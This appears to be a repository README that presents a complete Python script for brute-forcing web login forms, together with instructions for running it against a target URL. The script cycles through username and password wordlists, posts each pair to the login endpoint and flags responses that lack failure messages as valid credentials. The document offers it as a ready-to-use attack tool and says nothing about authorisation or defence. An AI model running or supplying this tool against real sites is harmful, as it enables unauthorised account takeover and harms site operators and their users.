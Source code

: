 # Web Login Brute-Force Script

This Python script is designed to perform brute-force attacks on web login forms by attempting a combination of usernames and passwords from specified wordlists.

Create a file named `bruteforce.py` and add the following content:
```python
#!/usr/bin/python3

import requests
import sys
from colorama import Fore
import pyfiglet

font = pyfiglet.figlet_format('Brute Force')
print(Fore.CYAN + font)

# Updated usage message
if len(sys.argv) < 3 or len(sys.argv) > 4:
    print(f"Usage: {sys.argv[0]} <url> <password_file> [username | username_file]")
    print(f"Example 1: {sys.argv[0]} http://example.com/login passwords.txt admin")
    print(f"Example 2: {sys.argv[0]} http://example.com/login passwords.txt usernames.txt")
    sys.exit(1) # Exit if usage is incorrect

login_url = sys.argv[1]
passwordlist_path = sys.argv[2]
username_arg = sys.argv[3] # This can be a username or a path to a username file

session = requests.Session()

def brute_force():
    # Determine if username_arg is a single username or a file
    usernames = []
    try:
        # Try to open it as a file first
        with open(username_arg, 'r') as uf:
            usernames = [line.strip() for line in uf if line.strip()]
        print(f"[INFO] Using usernames from file: {username_arg}")
    except FileNotFoundError:
        # If it's not a file, treat it as a single username
        usernames.append(username_arg)
        print(f"[INFO] Using single username: {username_arg}")

    if not usernames:
        print(f"[ERROR] No usernames to try. Please provide a valid username or a non-empty username file.")
        sys.exit(1)

    with open(passwordlist_path, 'r') as pf:
        passwords = [line.strip() for line in pf if line.strip()]

    if not passwords:
        print(f"[ERROR] No passwords to try. Please provide a non-empty password file.")
        sys.exit(1)

    print(f"[INFO] Starting brute force against {login_url}...")

    for username in usernames:
        for password in passwords:
            data = {'username': username, 'password': password}

            try:
                response = session.post(login_url, data=data)

                # Check if "Invalid" is NOT in the response text.
                # You might need to adjust this condition based on the target website's error message.
                if "Invalid" not in response.text and "incorrect" not in response.text and "failed" not in response.text:
                    print(Fore.GREEN + f"[+] Found valid credentials: {username}:{password}")
                    return # Exit after finding the first valid credential
                else:
                    print(Fore.RED + f"[-] Attempted: {username}:{password}")
            except requests.exceptions.RequestException as e:
                print(Fore.YELLOW + f"[WARNING] Request failed for {username}:{password} - {e}")
                continue # Continue to the next attempt even if one fails

    print(Fore.YELLOW + "[-] Brute force completed. No valid credentials found with the provided lists.")

brute_force()
```

---

### How to Run
Execute the script from your terminal providing the target URL, username file, and password file as arguments:
```bash
$ python3 scripts/bruteforce.py https://example.com/login.php passwords.txt username.txt
```

Alternatively, you can make the script executable and run it directly:
```bash
$ chmod +x bruteforce.py
$ ./bruteforce.py https://example.com/login.php passwords.txt username
```
Make sure you have `usernames.txt` and `passwords.txt` files (or whatever you name them) in the same directory where you run the script, or provide their full paths.

---